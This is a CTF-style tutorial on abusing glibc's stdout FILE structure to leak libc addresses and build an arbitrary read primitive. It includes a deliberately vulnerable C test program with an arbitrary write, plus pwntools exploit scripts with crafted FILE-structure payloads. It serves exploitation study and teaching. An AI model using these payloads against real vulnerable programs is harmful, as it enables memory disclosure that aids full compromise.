







## Abusing `stdout` to gain arbitrary read (glibc `2.39` (and lower?))

In this doc, i will summarize the technique of using `stdout` for arbitrary read. This is well-known technique used by pwners for a long time, and has been described in detail...

Here i want to note some importants while experiment and provide examples code to reuse later. For further understanding, please visit the [basics](/fsop/basics/readme.md) and some references that i also linked...

> this docs heavily based on [nobody's docs](https://github.com/nobodyisnobody/docs/blob/main/using.stdout.as.a.read.primitive/README.md)

---

### 1. C template code for experiments

Here is small C code using for testing:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0); // disable buffering
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    long addr, size;

    printf("libc stdout leak: %p\n", stdout); // leak libc

    while(1) {
        puts("you can write data to any addr"); // message

        printf("addr: "); // choose address
        scanf("%ld", &addr);
        printf("size: "); // choose size
        scanf("%ld", &size);
        printf("data: "); // input data
        read(0, (long *)addr, size);
    }

    return 0;
}
```

The program give us an `stdout` address leak (internally named: `_IO_2_1_stdout`) and give us a endless loop to perform any arbitrary write (for easier code reading, i dont write `exit` option...)

For experiments, i use glibc `2.39` version (and `ld.so`) (with full debug symbols). I also wrote how to compile C code with desired glibc versions [here](/heap/compiling/readme.md).

---
### 2. `FILE` structure overviews

> for more details, please visit [this](/fsop/basics/hieuvd341/readme.md)

`_IO_2_1_stdout` picture:



Offset from the beginning of file structure:



---

### 3. `stdout 0.5` - libc addresses leak technique

> i dont know if it's original name is `stdout 0.5` but at least many korean pwners call it like that...

This method is used in many "**leakless**" heap challenges, to have a leak of some libc addresses.

Most of the time, these heap challenges reuse a `main_arena` libc address leaved on heap by an unsorted memory chunk for example, and by modifying its two LSB bytes, try to get a chunk of memory allocated on `stdout` structure.

In most of the libc, `stdout` is very near from `main_arena`, for example for `glibc-2.38` stdout is just `0xb00` bytes after `main_arena`.

As the lower 12bits of any libc address is fixed and does not vary with ASLR, overwriting two lsb bytes of a `main_arena` address on heap with stdout address two LSB bytes, leaves only 4 bits of ASLR to be guessed.

There is a `1/16` chance of having an allocation on stdout, so it is a very easy and quick bruteforce.

to make `stdout` leaking some libc addresses, we use a payload like this to overwrite beginning of `stdout` structure:

```
payload = p64(0xfbad1887) + p64(0) * 3 + p8(0)
```

You can see that first value modify `_flags` entry, changing its original value `0xfbad2887` to `0xfbad1887`, then it set the three pointers `_IO_read_ptr`, `_IO_read_end`, `_IO_read_base` to zero, and it set the lsb byte of `_IO_write_base` to zero.

We will overwrite `_flags = _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING | _IO_MAGIC = 0xfbad1800` along with `_IO_write_base` (in `_IO_2_1_stdout`) to the appropriate values so that when the `puts()` is called. The data between `_IO_write_base` and `_IO_write_ptr` will be printed out.

Flowchart of `puts()` (From **kyr04i**) after bypassing the checks:

> damn it, he deleted all his blogs...

```
puts(str)
|_ _IO_new_file_xsputn (stdout, str, len)
   |_ _IO_new_file_overflow (stdout, EOF)
      |_ new_do_write(stdout, stdout->_IO_write_base, stdout->_IO_write_ptr - stdout->_IO_write_base)
         |_ _IO_new_file_write(stdout, stdout->_IO_write_base, stdout->_IO_write_ptr - stdout->_IO_write_base)
            |_ write(stdout->fileno, stdout->_IO_write_base, stdout->_IO_write_ptr - stdout->_IO_write_base)
```

lets examining` stdout` structure after we overwrite it:



we can see that the `_IO_write_base` original value is `0x7f4a555da823` before our overwrite, now has been changed to `0x7f4a555da800` because we were overwrited the lsb byte of `_IO_write_base` with zero

and examining the data at this address (`x/10gx 0x7f4a555da800`) we can verify that it's exactly the value that are returned by `stdout`. Basically it returns us value between `0x7f4a555da800` and `0x7f4a555da823` so in total exactly `0x23 bytes`.





You can see the program print out for us `0x23 bytes` first then continue with program's strings (as expected). There is a libc address value exists in there, give us an libc address leak. Moreover, after leak, `stdout` restore to normal by itself, so you **do not** have to worry that the program has the unexpected behaviour!



Here is the python script to exploit out program:

```python
from pwn import *

exe = ELF('./tmp')
# libc = ELF('')
context.binary = exe

script = '''
b *main + 127
'''

p = process('./tmp')
#p = gdb.debug("./tmp", gdbscript = script)

def write(addr, data):
	p.sendlineafter(b"addr: ", f"{addr}".encode())
	p.sendlineafter(b"size: ", f"{len(data)}".encode())
	p.sendafter(b"data: ", data)

p.recvuntil(b"leak: ")
stdout = int(p.recvline(), 16)

payload = p64(0xfbad1887) + p64(0) * 3 + p8(0)
write(stdout, payload)

p.interactive()
```

That's how this classic libc address leak techniques works...

---

### 4. More general read primitive...

So now that we start to see more how this work, we can extend that simple technique to a more general read primitive, that will permit to read in data at any known addresses...

here i choose, `__environ` as our target (you can calculate offset by yourself, to fit with your local glibc).

```python
from pwn import *

exe = ELF('./tmp')
context.binary = exe

script = '''
b *main + 127
'''

p = process('./tmp')
#p = gdb.debug("./tmp", gdbscript = script)

def write(addr, data):
	p.sendlineafter(b"addr: ", f"{addr}".encode())
	p.sendlineafter(b"size: ", f"{len(data)}".encode())
	p.sendafter(b"data: ", data)

def arbread(addr, size):
	payload = p64(0xfbad1887) + p64(0) * 3 + p64(addr) +  p64(addr + size) * 3 + p64(addr + size + 1)
	write(stdout, payload)

def arbread_02(addr, size):
	payload = p64(0x00000000fbad2887) # flag
	payload += p64(0) # read_ptr
	payload += p64(addr) # read_end
	payload += p64(0) # read_base
	payload += p64(addr) # write_base
	payload += p64(addr + size) # write_ptr
	payload += p64(0) # write_end
	payload += p64(0) # buf_base
	payload += p64(size) # buf_end
	write(stdout, payload)

p.recvuntil(b"leak: ")
stdout = int(p.recvline(), 16)

environ = stdout + 0x6798 # calculate offset by yourself

arbread(environ, 8)
arbread_02(environ, 8)

p.interactive()
```

You can notice, i wrote 2 different payload, and yes they give same results:



Because there are many other ways that can lead to read primitive from FSOP, the common feature is that we will need to dive into the libc source code and find a way to bypass the conditions to set up the fields and get into the code block that we want to execute. For more understanding, please visit [hieuvd341's blog](/fsop/basics/hieuvd341/readme.md).

### 5. References

- https://github.com/nobodyisnobody/docs/blob/main/using.stdout.as.a.read.primitive/README.md
- https://github.com/hieuvd341/super-duper-couscous/tree/master/CTFs/Docs/FSOP
- https://hackmd.io/@gnas/cyberspacectf2024-pwn-shop
